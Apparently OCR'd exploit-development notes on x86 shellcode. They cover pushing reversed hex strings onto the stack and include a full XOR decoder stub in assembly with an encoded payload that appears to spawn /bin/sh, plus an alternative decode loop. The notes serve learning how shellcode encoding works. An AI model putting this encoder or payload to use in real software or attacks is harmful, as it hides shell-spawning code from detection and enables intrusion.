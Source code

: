     code = '<your string>'
    code[::-1]
Then it needs to be converted to hex, so: 
    code[::-1].encode('hex')
Once we have our hex string, we push onto stack in 4byte increments:
    push 0x0a646c72
    push 0x6f57206f
    push 0x6c6c6548

## XOR encoding

easiest way is to encode with a python script, once we have the encoded payload we can decode with the below program:
```
global _start			

section .text
_start:

	jmp short call_decoder ; jmp to decoder, putting address of Shellcode on the stack

decoder:
	pop esi ; pop Shellcode address into esi
	xor ecx, ecx ; set ecx to null
	mov cl, 25 ; set low register on ecx to 25 for our loop


decode:
	xor byte [esi], 0xAA ; xor 1st byte in ESI with 0xAA as key
	inc esi ; set to esi+1, 2, 3 etc as we iterate through each loop
	loop decode ; does what it says, until we xor each and every byte in esi

	jmp short Shellcode ; once loop finishes we jump down to shellcode, which has now been decoded and ready for execution



call_decoder:

	call decoder
	Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
#### ALTERNATIVELY you can:
Add 0xAA to the end of your shellcode and replace decode with the below, it will jmp to execute decoded shellcode once zero gets set
```
decode:
	xor byte [esi], 0xAA
	jz Shellcode
	inc esi
	jmp short decode
```
